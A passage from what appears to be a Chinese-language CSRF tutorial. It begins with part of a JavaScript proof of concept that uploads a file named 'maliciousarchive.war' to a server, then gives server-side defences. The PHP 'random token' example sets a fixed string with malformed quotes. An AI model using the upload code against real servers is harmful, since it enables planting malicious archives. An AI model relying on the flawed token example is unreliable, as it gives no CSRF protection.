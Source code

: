 ``` 
} 
   
function addField(name, value, boundary) { 
  var c = "--" + boundary + "\r\n" 
  c += 'Content-Disposition: form-data; name="' + name + '"\r\n\r\n'; 
  c += value + "\r\n"; 
  return c; 
} 
   
function addFileField(name, value, filename, boundary) { 
    var c = "--" + boundary + "\r\n" 
    c += 'Content-Disposition: form-data; name="' + name + '"; filename="' + filename + '"\r\n'; 
    c += "Content-Type: application/octet-stream\r\n\r\n"; 
    c += value + "\r\n"; 
    return c;   
} 
   
function getBinary(file){ 
  var xhr = new XMLHttpRequest();   
  xhr.open("GET", file, false);   
  xhr.overrideMimeType("text/plain; charset=x-user-defined");   
  xhr.send(null); 
  return xhr.responseText; 
} 
   
function readBinary(data) { 
   
var tmp = ''; 
    for (var i = 0; i < data.length; i++) tmp += String.fromCharCode(data.charCodeAt(i) & 
0xff); 
    data = tmp; 
    return tmp; 
    } 
   
function start() { 
  var c = getBinary('maliciousarchive.war'); 
  fileUpload(c, "maliciousarchive.war"); 
     
} 
``` 

# 防御
## 服务端防御
### 遵循标准的GET动作
只允许GET请求检索数据，但是不允许它修改服务器上的任何数据。这个修改可以防止利用{img}标签或者其它的类型的GET请求的CSRF攻击。另外，这个建议遵循RFC 2616(HTTP/1.1)：具体说来，按照约定，GET和HEAD方法不应该进行检索之外的动作。这些方法应该被认为是“安全的”。虽然这个保护措施无法阻止CSRF本身，因 为攻击者可以使用POST请求，但是它却可以与(2)结合来全面防止CSRF漏洞。这里，我们假定对手无法修改用户的cookie。
### 为页面增加随机数
当用户访问站点时，该站点应该生成一个（密码上很强壮的）伪随机值，并在用户的计算机上将其设为cookie。站点应该要求每个表单都包含该伪随机 值（作为表单值和cookie值）。当一个POST请求被发给站点时，只有表单值和cookie值相同时，该请求才会被认为是有效的。当攻击者以一个用户的名义提交表单时，他只能修改该表单的值。攻击者不能读取任何发自该服务器的数据或者修改cookie值，这是同源策略的缘故。 这意味着，虽然攻击者可以用表单发送任何他想要的值，但是他却不能修改或者读取存储在该cookie中的值。因为cookie值和表单值必须是相同的，所 以除非攻击者能猜出该伪随机值，否则他就无法成功地提交表单。
以PHP为例，我们可以在服务端首先生成随机数：
```
　<?php
　　　　//构造加密的Cookie信息
　　　　$value = “DefenseSCRF”;
　　　　setcookie(”cookie”, $value, time()+3600);
　　?>
```